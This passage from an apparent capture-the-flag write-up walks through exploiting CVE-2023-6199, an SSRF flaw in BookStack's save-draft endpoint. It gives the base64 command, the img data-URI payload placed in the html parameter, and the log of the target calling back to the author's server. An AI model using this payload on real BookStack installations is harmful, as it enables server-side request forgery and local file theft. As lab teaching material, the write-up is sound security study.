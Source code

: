 ![image-20250223063004978](/img/image-20250223063004978.png)

NVD [describes](https://nvd.nist.gov/vuln/detail/CVE-2023-6199) it as:

> Book Stack version 23.10.2 allows filtering local files on the server. This is possible because the application is vulnerable to SSRF.

The vulnerability is in the `html` parameter of the `/ajax/page/<id>/save-draft` endpoint. A blog post from fluid attacks, [LFR via SSRF in BookStack: Beware of insecure-by-default libraries!](https://fluidattacks.com/blog/lfr-via-blind-ssrf-book-stack/), walks through the vulnerability in detail, showing how an attacker-controller parameter in a HTTP POST request can get a provided URL into a call to `file_get_contents` if crafted correctly. This is server-side request forgery.

Beyond that, the post mentions using the [Blind File Oracles](https://www.synacktiv.com/en/publications/php-filter-chains-file-read-from-error-based-oracle) technique to use this to read files from the local machine.

#### SSRF POC

To test this out, I’ll click “Books” –> “Create New Book”, fill out the form to create a book, and then click “New Page”:

![image-20250224062243425](/img/image-20250224062243425.png)

Updating the page may inspire it to save the draft automatically, or I can click the three dots next to “Editing Draft” and then “Save Draft”.

Burp shows that when that happens, there’s a PUT request to `/ajax/page/8/save-draft` (though the page number may vary):

![image-20250224062414393](/img/image-20250224062414393.png)

I’ll send this request to repeater. For the payload, I want a base64-encoded URL:

```

oxdf@hacky$ echo -n "http://10.10.14.6/ssrf-poc" | base64
aHR0cDovLzEwLjEwLjE0LjYvc3NyZi1wb2M=

```

It is critical to include the `-n`, or else the string will decode with a trailing newline, and then won’t be recognized as a URL later by PHP.

I’ll take the result (minus any trailing “=”) and wrap it in the payload shown in the POC exploit:

```

<img src='data:image/png;base64,aHR0cDovLzEwLjEwLjE0LjYvc3NyZi1wb2M'/>

```

I’ll put this in the `html` parameter in the PUT request and send it. Immediately there’s a request at my listening Python webserver from Checker:

```
10.10.11.56 - - [24/Feb/2025 06:26:16] code 404, message File not found
10.10.11.56 - - [24/Feb/2025 06:26:16] "GET /ssrf-poc HTTP/1.1" 404 -

```
